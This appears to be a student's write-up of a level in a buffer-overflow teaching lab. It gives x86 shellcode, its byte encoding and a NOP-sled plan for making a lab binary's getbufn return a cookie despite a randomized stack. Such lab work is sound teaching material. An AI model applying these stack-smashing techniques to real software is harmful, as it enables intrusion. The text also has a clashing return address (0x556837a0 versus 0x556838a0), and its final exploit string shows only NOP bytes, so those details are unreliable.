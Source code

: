 execute `getbufn` 5 times, each with a different stack offset.  Our exploit string must make it return cookie 
each of these times.  
  
Our task is identical to the task for the Dynamite level.  Once again, our job for this level is to supply an
exploit string that will cause `getbufn` to return your cookie back to test, rather than the value 1.  
    
This time we are unable to rewrite saved $ebp with a fixed value because it changes every time, but `testn's $ebp - getbufn's $ebp`
will remain same, which is 0x30 (using gdb). When `getbuf` execute 'ret',
$ebp has been already corrupted by poping a bad value from stack,
but $esp holds the value 8 bytes bigger than saved $ebp, so we can compute saves $ebp by $esp + 0x28,
so our exploit code looks like:  
```asm
lea 0x28(%esp), %ebp
movl $0x44fa5d89, %eax
push $0x8048e3a
ret
```  
Byte encodeing:  
```asm
   0:	8d 6c 24 28          	lea    0x28(%esp),%ebp
   4:	b8 89 5d fa 44       	mov    $0x44fa5d89,%eax
   9:	68 3a 8e 04 08       	push   $0x8048e3a
   e:	c3                   	ret   
```  
Now consider how to deal with randomized stack address, we use "nop sleds" and make sure every time the return address we give
leads to our "sled". First take a look at those addresses, use gdb to print address of buff: 

| Address    |
| ---        |
| 0x55683768 |
| 0x55683778 |
| 0x556837a8 |
| 0x556837b8 |
| 0x556837d8 |

Even I try it many times, I alwasy get these 5 addresses. 
So I assume 0x556837a0 is the average address (avg of 0x55683768 0x556837d8), I will set return address as 0x556838a0 + 250 
and fill starring 500 bytes wieh 0x90 (nop). Since address differs only ± 240, it will always leads to "sled". So the answer wil be:
```
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
```
